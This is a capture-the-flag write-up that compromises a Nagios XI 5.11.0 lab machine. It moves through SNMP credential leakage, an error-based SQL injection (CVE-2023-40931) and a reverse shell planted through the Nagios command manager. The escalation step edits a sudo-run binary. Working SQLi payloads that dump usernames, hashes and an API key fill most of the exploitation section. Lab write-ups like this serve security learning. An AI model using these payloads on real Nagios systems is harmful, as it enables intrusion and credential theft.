

## Initial Reconnaissance

### Port Scanning

Starting of with an Nmap TCP scan

```shell
sudo nmap -sC -sV -p- -T4 10.129.230.96 
```


**Results:**


Relevant ports open:

```bash
Port 80: http
port 22: ssh
port 389: ldap `OpenLDAP 2.2.X - 2.3.X`
Port 443: HTTP: Apache httpd 2.4.56, NagiosXI
```

Next did a Nmap UDP Scan

```shell
sudo nmap -sU --top-ports 100 -sV -T3 -Pn -n 10.129.230.96
```


Relevant ports open:

```shell
port 161: SNMPv1 server; net-snmp SNMPv3 server (public)
Port 162: net-snmp; net-snmp SNMPv3 server
```


----

### SNMP Enumeration

Used  [snmp.sh](https://github.com/Yelodash/Snmp.sh) a custom script that I made to facilitate SNMP enumeration:

```shell
snmp.sh -t 10.129.230.96 -c public --extras 
```




found these credentials but was not able to login via SSH:

```shell
user: svc
password: XjH7VCehowpR1xZB
```


----

### HTTP Enumeration


- Did not find anything interesting with Gobuster or Fuff so I went directly on the website


I tried to log in with the credentials found with SNMP but it was saying that **the user has been disabled or does not exist**


after doing some googling I found this post mentioning an insecure login to the backend using ticket authentification.

https://support.nagios.com/forum/viewtopic.php?t=58783


## Exploitation


### Getting the token

I went on burp and intercepted the login post request andkept the same **username** and **password**


I sent the request and obtain a **token**:


then crafted an URL which includes the token, used it on my browser and succeeded to login

```shell
https://nagios.monitored.htb/nagiosxi/?token=342e5b9ad2b46b9eaeb23c3c06d90b219d03214b
```


looking at the bottom we finally obtained the version:

```shell
Nagios XI 5.11.0
```

by doing some researches online I found out that there is a SQL injection vulnerability affecting this version:

https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c


### Error based SQL injection

**CVE-2023-40931**

intercepted the request on Burp and saw the vulnerable parameter

```shell
POST /nagiosxi/admin/banner_message-ajaxhelper.php HTTP/1.1
```

```shell
action=acknowledge_banner_message&id=2
```


1. Confirming SQLi :

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,(SELECT VERSION()))
# Output:
# SQL Error [nagiosxi]: XPATH syntax error: '.23-MariaDB-0+deb11u1'
```


2. Direct Schema enumeration:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,(SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA))
# Output:
# SQL Error: Subquery returns more than 1 row
```

3. Using group_concat() to Dump All Schemas

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,(SELECT GROUP_CONCAT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA))
# Output:
# SQL Error: XPATH syntax error: 'information_schema,nagiosxi'
```

4. Use LIMIT to Dump Schema Names One by One:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1)))
# Output:
# SQL Error: 'information_schema'
```

5. Repeat Full Schema Dump with clean concat:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT GROUP_CONCAT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA)))
# Output:
# SQL Error: 'information_schema,nagiosxi'
```

6. Dump Tables + Columns from the target DB:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT GROUP_CONCAT(TABLE_NAME,":",COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'nagiosxi')))
```

7. Loop tables with LIMIT:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT GROUP_CONCAT(TABLE_NAME,COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'nagiosxi' AND TABLE_NAME = 'xi_users')))
# Output: xi_usersuser_id,xi_usersusern...
```

8. Target a specific table (xi_users)

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'nagiosxi' AND TABLE_NAME = 'xi_users' LIMIT 0,1)))
# Output:
# SQL Error: 'user_id'
```


9. Extract Columns One-by-One from xi_users:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT username FROM xi_users LIMIT 0,1)))
# Output: nagiosadmin

?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT username FROM xi_users LIMIT 1,1)))
# Output: svc
```

10. Dump Row Data from xi_users:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT password FROM xi_users LIMIT 0,1)))
# Output: $2a$10$825c1eec29c150b118fe7u...

?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT api_key FROM xi_users LIMIT 0,1)))
# Output (truncated): 'IudGPHd9pEKiee9MkJ7ggPD89q3Yn...'
```

 
 11. Fix API Key Truncation using SUBSTRING():
 
```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT SUBSTRING(api_key,1,28) FROM xi_users LIMIT 0,1)))
# Part 1: IudGPHd9pEKiee9MkJ7ggPD89q3Y

?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT SUBSTRING(api_key,29,56) FROM xi_users LIMIT 0,1)))
# Part 2: ndctnPeRQOmS2PQ7QIrbJEomFVG6

?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT SUBSTRING(api_key,57,70) FROM xi_users LIMIT 0,1)))
# Part 3 (safety padding): Eut9CHLL
```


**FInal API Key:

```shell
IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
```


## Creating a user

also looking at this exploit from Exploit DB

https://www.exploit-db.com/exploits/51925


I was able to create an user and login without requiring the token.


they required me to change the password and I changed it to:

```shell
password1
```


## Command Execution via Nagios Panel


Accessed the Command management menu in Nagios and added a bash reverse shell as a new command.

``navigation > configure > core config manager > commands > create new command


`save command > apply configuration` then `navigation > configure > core config manager > services > add new > Check Command = reverse shell`


next we can open a Netcat listener matching the port of the command we created earlier in Nagios

```shell
nc -lvnp 4444
```


next we just need to run the command in order to get a connection back to our reverse shell:


**Flag** :


### Privilege Escalation

I originally went in the Nagios folder to check the configuration files but did not find anything interesting there. I then ran `sudo -l` to see if there was something interesting that we could do.


Based on what we see, we just need to modify the `nagios` binary in order to obtain a Root shell and we actually have the rights.


```shell
cd /usr/local/nagios/bin
```

```shell
nano nagios
```

added a **reverse shell** in the file:


```shell
chmod +x nagios
```

Executed the command and got root:

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios  
```

